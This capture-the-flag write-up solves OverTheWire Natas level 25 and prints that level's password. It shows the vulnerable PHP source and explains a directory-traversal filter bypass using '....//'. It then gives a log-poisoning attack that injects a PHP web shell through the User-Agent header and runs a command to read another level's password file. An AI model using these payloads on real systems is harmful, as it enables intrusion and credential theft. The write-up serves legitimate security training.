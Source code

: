# Solution
```
cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
```

```php
<?php    // cheers and <3 to malvina  
    // - morla    function setLanguage(){        /* language setup */        if(array_key_exists("lang",$_REQUEST))  
            if(safeinclude("language/" . $_REQUEST["lang"] ))  
                return 1;        safeinclude("language/en");   
    }  
      
    function safeinclude($filename){        // check for directory traversal        if(strstr($filename,"../")){            logRequest("Directory traversal attempt! fixing request.");            $filename=str_replace("../","",$filename);  
        }        // dont let ppl steal our passwords        if(strstr($filename,"natas_webpass")){            logRequest("Illegal file access detected! Aborting!");  
            exit(-1);  
        }        // add more checks...        if (file_exists($filename)) {   
            include($filename);  
            return 1;  
        }  
        return 0;  
    }  
      
    function listFiles($path){        $listoffiles=array();  
        if ($handle = opendir($path))  
            while (false !== ($file = readdir($handle)))  
                if ($file != "." && $file != "..")                    $listoffiles[]=$file;                closedir($handle);  
        return $listoffiles;  
    }   
      
    function logRequest($message){        $log="[". date("d.m.Y H::i:s",time()) ."]";        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];        $log=$log . " \"" . $message ."\"\n";         $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");        fwrite($fd,$log);        fclose($fd);  
    }  
?>
```


The snippet reveals us some special information.
1. There is a whitelisted directory - language - meaning we can't do absolute path like `/etc/passwd`
2. It blacklists `../` but not `....//`
3. The logs shows the user agent
4. There is a parameter `lang` that switches the language
=> This is a classic LFI + Log Poisoning vulnerability.


```
/?lang=....//logs/natas25_j7j8fob4tl4gqb9tkjv4dv966i.log
```

This payload confirms us that the site is LFI vulnerable.

```
GET /?lang=....//logs/natas25_j7j8fob4tl4gqb9tkjv4dv966i.log HTTP/1.1

User-Agent: <?php system($_GET['cmd']); ?>
```

We added the php payload to the `User-Agent`.

Execute with:
```
/?lang=....//logs/natas25_j7j8fob4tl4gqb9tkjv4dv966i.log&cmd=cat%20/etc/natas_webpass/natas26
```